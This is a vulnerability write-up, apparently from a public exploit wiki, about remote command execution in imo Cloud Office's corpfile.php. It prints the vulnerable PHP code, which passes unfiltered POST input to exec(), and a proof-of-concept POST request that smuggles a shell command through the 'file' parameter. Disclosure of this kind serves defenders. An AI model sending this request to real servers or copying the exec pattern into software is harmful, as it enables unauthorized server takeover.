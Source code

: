 # imo cloud office corpfile.php remote command execution vulnerability

## Vulnerability Description

The parameter filtering in the imo cloud office corpfile.php file is insufficient, resulting in the command splicing at will to obtain server permissions

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">imo Cloud Office</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645878070559-eaed5393-f82d-4b08-8b95-54e91e5ceae0.png)

Vulnerable file corpfile.php

```javascript
<?php
define('DELETE_FAILED', '数据不存在，删除失败!');
define('DELETE_SUCCESS', '数据存在，删除成功!');
switch($_POST['type'])
{
  case 'corpLogo':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'userLogo':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('uid' => $_POST['uid'], 'user_account' => $_POST['user_account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'corpTemp':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'chatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'multiChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'groupChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;

  case 'backChatLog':
    $checkFile = exec('ls ' . $_POST['file']);
    $result = exec($_POST['command']);
    echo json_encode(array('cid' => $_POST['cid'], 'account' => $_POST['account'], 'command' => $_POST['command'], 'file' => (($checkFile && !$result) ? DELETE_SUCCESS : DELETE_FAILED)));
  break;
}
```

Verify POC

```javascript
POST /corpfile.php

type=corpLogo&command=id&file=;pwd>1.txt
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1645881191090-fcf34136-bc53-4b37-8de8-e4ca535b750a.png)